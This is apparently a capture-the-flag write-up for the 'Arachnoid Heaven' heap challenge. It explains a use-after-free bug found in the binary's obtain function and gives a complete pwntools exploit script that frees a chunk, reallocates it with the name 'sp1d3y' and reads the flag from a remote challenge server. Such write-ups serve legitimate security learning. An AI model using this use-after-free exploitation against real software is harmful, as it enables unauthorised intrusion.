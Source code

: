 # Arachnoid Heaven (Pwn) Writeup
Running the binary, we can quickly conclude that this is a heap challenge.

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_menu.png)

Reading the pseudocode in ida, we come across the **obtain** function:

![alt text](https://github.com/BillBrousalis/htb_uni_ctf_writeups/blob/main/arachnoid_heaven/screenshots/arachnoid_win_func.png)

It checks if the *Code* corresponding to a particular arachnoid is set to 'sp1d3y',
and if so, it prints out the flag.

The user chooses the arachnoid index to obtain, and nothing is stopping us from
selecting a chunk that has been freed.
So there we have it: a Use-After-Free vulnerability.
We can use this to exploit the program.

```
#!/usr/bin/env python3
from pwn import *

def exploit():
  _bin = './arachnoid_heaven'
  elf = ELF(_bin)
  local = False

  if local:
    log.info('** Running exploit LOCALLY **')
    r = elf.process()
  else:
    log.info('** Running exploit against REMOTE server **')
    ip, port = '167.172.58.213', 31168   # CHANGE THIS
    r = remote(ip, port)
  
  r.sendlineafter(b'>', b'1') # craft arachnoid
  r.sendlineafter(b'Name:', b'koulis') # initial spider name

  r.sendlineafter(b'>', b'2') # delete arachnoid
  r.sendlineafter(b'Index:', b'0') # select 1st arachnoid

  r.sendlineafter(b'>', b'1') # craft arachnoid again
  # name it sp1d3y, so arachnoid's Code at index 0 is set to sp1d3y
  r.sendlineafter(b'Name:', b'sp1d3y')

  r.sendlineafter(b'>', b'4') # obtain arachnoid with index 0
  r.sendlineafter(b'Arachnoid:', b'0')

  r.recvline() # junk
  log.success('** PWNED **')
  flag = r.recvline().decode()
  log.success(f'flag : {flag}')


if __name__ == '__main__':
  exploit()
```
